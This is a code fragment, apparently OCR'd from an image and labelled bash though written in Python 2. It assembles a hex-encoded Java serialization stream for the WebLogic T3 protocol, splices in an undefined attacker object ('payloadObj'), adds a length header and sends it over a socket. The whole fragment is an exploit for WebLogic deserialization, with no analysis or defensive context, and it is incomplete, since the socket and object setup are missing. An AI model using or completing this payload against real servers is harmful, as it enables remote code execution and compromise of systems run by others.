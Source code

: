```bash
payload='\x00\x00\x09\xe4\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x71\x00\x00\xea\x60\x00\x00\x00\x18\x43\x2e\xc6\xa2\xa6\x39\x85\xb5\xaf\x7d\x63\xe6\x43\x83\xf4\x2a\x6d\x92\xc9\xe9\xaf\x0f\x94\x72\x02\x79\x73\x72\x00\x78\x72\x01\x78\x72\x02\x78\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x70\x70\x70\x70\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x06\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x03\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x03\x78\x70\x77\x02\x00\x00\x78\xfe\x01\x00\x00'
payload=payload+payloadObj
payload=payload+'\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x21\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x65\x65\x72\x49\x6e\x66\x6f\x58\x54\x74\xf3\x9b\xc9\x08\xf1\x02\x00\x07\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x74\x00\x27\x5b\x4c\x77\x65\x62\x6c\x6f\x67\x69\x63\x2f\x63\x6f\x6d\x6d\x6f\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\x3b\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x56\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x97\x22\x45\x51\x64\x52\x46\x3e\x02\x00\x03\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x71\x00\x7e\x00\x03\x4c\x00\x0e\x72\x65\x6c\x65\x61\x73\x65\x56\x65\x72\x73\x69\x6f\x6e\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x00\x12\x76\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x41\x73\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x71\x00\x7e\x00\x05\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x05\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x05\x78\x70\x77\x02\x00\x00\x78\xfe\x00\xff\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x46\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\x00\x0b\x75\x73\x2d\x6c\x2d\x62\x72\x65\x65\x6e\x73\xa5\x3c\xaf\xf1\x00\x00\x00\x07\x00\x00\x1b\x59\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\x00\x78\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x1d\x01\x81\x40\x12\x81\x34\xbf\x42\x76\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\xa5\x3c\xaf\xf1\x00\x00\x00\x00\x00\x78'
print 'sending payload...'
payload = "{0}{1}".format(struct.pack('!i', len(payload)), payload[4:])

sock.send(payload)
```
